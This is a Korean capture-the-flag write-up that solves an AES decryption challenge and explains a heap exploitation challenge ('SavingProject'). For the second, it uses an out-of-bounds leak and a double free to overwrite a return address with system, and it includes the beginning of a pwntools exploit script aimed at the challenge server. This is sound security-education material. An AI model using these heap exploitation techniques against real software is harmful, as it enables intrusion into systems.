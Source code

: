 iv 값을 seed를 초기화 하지 않고 랜덤값으로 주고 , Key값도 주길래 그냥 역연산코드를 짜주면 된다.

```
from Crypto.Cipher import AES
from Crypto import Random
import binascii,base64


BLOCK_SIZE = 16  # Bytes
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * \
                chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)

key = b'ThisisRealKey1:)'

iv = Random.new().read(AES.block_size)

cipher_text = "8dF1aL7GX2LTlg4C/tByA/KHg4L2zLMol86Zx7P1ZmbAnc8JCHU+BbBcx6zgb/M5LEA8BCPXHV6vW1SO9NeNyg=="
cipher_text = base64.b64decode(cipher_text)

cipher = AES.new(key,AES.MODE_CBC, iv)
plain_text = cipher.decrypt(iv+cipher_text)

print(plain_text)
```

FLAG : 50_45_l0ng_45_1_liv3_1'll_l0v3_y0u

## SavingProject - Pwnable 300pt

바이너리를 보면 deposit, withdraw, history, modify 메뉴가 있다.

deposit 메뉴를 보게 되면 32이하의 크기를 먼저 입력받고 malloc을 진행한다.
그다음 0x21만큼 buf에 입력받은 뒤 strlen으로 다시 크기를 측정한 뒤에
힙에 값을 넣어준다.

withdraw 메뉴는 그냥 선택한 인덱스에 할당되어 있는지 확인한 뒤에 free해준다.

modify 메뉴에서는 deposit 메뉴와 비슷하게 0x21만큼 buf에 입력받은 뒤 크기 측정후에 
힙에 값을 넣어준다.

history는 인덱스를 입력받고 인덱스에 해당하는 값을 출력해준다. 여기서 인덱스 검사를 따로 하지 않아서 oob가 터진다. 이걸로 스택, 라이브러리, 코드영역 주소가 Leak 가능하다.

이 문제에서는 free를 할 때나 malloc을 할 때 따로 공간을 초기화하지 않아서
double free와 free된 chunk의 fd 조작이 가능하다. 따라서 return address를 
system으로 바꾸어주면 플래그를 얻을 수 있다.

```
from pwn import *

p = remote("13.124.244.98",15927)
#p = process("./SavingProject")
e = ELF("./SavingProject")
context.log_level='debug'

def add(size,data):
   p.sendlineafter("> ","1")
   p.sendlineafter(": ",str(size))
   p.sendlineafter(": ",data)
   
def delete(idx):
   p.sendlineafter("> ","2")   
   p.sendlineafter(": ",str(idx))

def edit(idx,data):
   p.sendlineafter("> ","4")
   sleep(3)
```